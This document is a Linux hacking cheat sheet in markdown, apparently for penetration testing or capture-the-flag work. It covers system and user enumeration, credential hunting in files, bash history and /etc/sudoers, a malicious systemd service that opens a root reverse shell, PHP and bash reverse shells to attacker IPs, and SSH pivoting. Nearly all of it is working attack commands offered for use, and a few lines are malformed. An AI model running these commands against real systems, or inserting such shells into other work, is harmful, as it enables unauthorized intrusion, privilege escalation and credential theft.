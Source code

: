 # Linux Hacking Cheatsheet

## Automated Enumeration Scripts

`wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
`wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh`
`wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py # python2`
`wget

<!--
##################################################################
##################################################################
-->

## System Enumeration

### Search for keyword

`grep -ri "word" /`
`grep -ri "search term` /| grep -Fv "excluded term"

### Find SUID bits

`find / -perm -u=s -type f 2>/dev/null`
`find / -user root -perm -4000 -exec ls -ldb {} \;`

### Find human readable strings in binary

`strings /usr/bin/menu`

### Services running as Root

`ps aux | grep root`

### Show System Distribution and Version

`cat /etc/issue; cat /etc/*-release; cat /etc/lsb-release; cat /etc/redhat-release;`

### Show System Architecture

`cat /proc/version; uname -a; uname -mrs; rpm -q kernel; dmesg | grep Linux; ls /boot | grep vmlinuz-; file /bin/ls; cat /etc/lsb-release`

### Find Writable Config Files

`find /etc/ -writable -type f 2>/dev/null`

### Find Miss-configured Services

`cat /etc/syslog.conf; cat /etc/chttp.conf; cat /etc/lighttpd.conf; cat /etc/cups/cupsd.conf; cat /etc/inetd.conf; cat /etc/apache2/apache2.conf; cat /etc/my.conf; cat /etc/httpd/conf/httpd.conf; cat /opt/lampp/etc/httpd.conf; ls -aRl /etc/ | awk '$1 ~ /^.*r.*/`

### Show Scheduled Cron Jobs

`crontab -l; ls -alh /var/spool/cron; ls -al /etc/ | grep cron; ls -al /etc/cron*; cat /etc/cron*; cat /etc/at.allow; cat /etc/at.deny; cat /etc/cron.allow; cat /etc/cron.deny`

### Find Hardcoded Passwords

`grep -i user [filename]`
`grep -i pass [filename]`
`grep -C 5 "password" [filename]`
`find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"`

### Find World Readable/Writable Files

`echo "world-writeable folders"; find / -writable -type d 2>/dev/null; echo "world-writeable folders"; find / -perm -222 -type d 2>/dev/null; echo "world-writeable folders"; find / -perm -o w -type d 2>/dev/null; echo "world-executable folders"; find / -perm -o x -type d 2>/dev/null; echo "world-writeable & executable folders"; find / \( -perm -o w -perm -o x \) -type d 2>/dev/null;`

### Find World Readable Files

`find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print`

<!--
##################################################################
##################################################################
-->

## User Enumeration

### Show Groups Users In

`id`

### Show Users Sudo Permissions

`sudo -l`

### List All Users Home Directories

`ls -ahlR /root/; ls -ahlR /home/`

### Show Users Bash History

`cat ~/.bash_history; cat ~/.nano_history; cat ~/.atftp_history; cat ~/.mysql_history; cat ~/.php_history`

### Show Users Mail

`cat ~/.bashrc; cat ~/.profile; cat /var/mail/root; cat /var/spool/mail/root`

### Find Other Users

`id; who; w; last; cat /etc/passwd | cut -d: -f1; echo 'sudoers:'; cat /etc/sudoers; sudo -l`

<!--
##################################################################
##################################################################
-->

## Network Enumeration

### Show Connections

`netstat -ano`

<!--
##################################################################
##################################################################
-->

## Privilege Escalation

### Priv Esc systemctl with user access

_Create protection.service file in writable directory_

```
[Unit]
Description=Does very important stuff mmmkay

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/YOURIP/YOURPORT 0>&1'

[Install]
WantedBy=multi-user.target
```

<!--
##################################################################
##################################################################
-->

## Shells

### Escaping no tty shell

`/usr/bin/script -qc /bin/bash /dev/null`

_try ctrl + z_

`stty raw -echo`

`fg`

`export TERM=xterm #autocomplete`

_or_

`SHELL=/bin/bash script -q /dev/null`

`Ctrl-Z`

`stty raw -echo`

`fg`

`reset`

`xterm`

### PHP reverse shell

```
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/172.30.10.210/443 0>&1'");
```

### Bash Reverse Shell

`bash-c'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'`

<!--
##################################################################
##################################################################
-->

## Useful Commands

### Grep IPs out of file

`grep -E -o "([0-9]{1,3}[\.]){3}[0-9]{1,3}" file.txt`

### Add Directory to PATH

export PATH=/tmp:$PATH

### Edit Wifi Connections

`nmtui`

_or_

`nmcli`

### Spin up webserver

`python -m SimpleHTTPServer 80`

### SSH Port Forwarding

`ssh -D localhost:9999 -f -N root@172.30.72.97 -p 40384`

**\*edit proxychains .conf file to connect over socks5 127.0.0.1 9999**

_or_

~C "if you already have an SSH session"

-R 8081:172.24.0.2:80 (on my Kali machine listen on 8081, get it from 172.24.0.2:80)
<KALI 10.1.1.1>:8081<------------<REMOTE 172.24.0.2>:80
Now you can access 172.24.0.2:80, which you didn't have direct access to

-L 8083:127.0.0.1:8084 (on your machine listen on 8083, send it to my Kali machine on 8084)
<KALI 127.0.0.1>:8084<------------<REMOTE 10.1.1.230>:8083<------------<REMOTE X.X.X.X>:XXXX
run nc on port 8084, and if 10.1.1.230:8083 receives a reverse shell, you will get it

### sshuttle

`sshuttle --dns -vvr user@targetip -x targetip 0/0`

### Pull Hash from Password Protected Zip

`zip2john file.zip > hash`
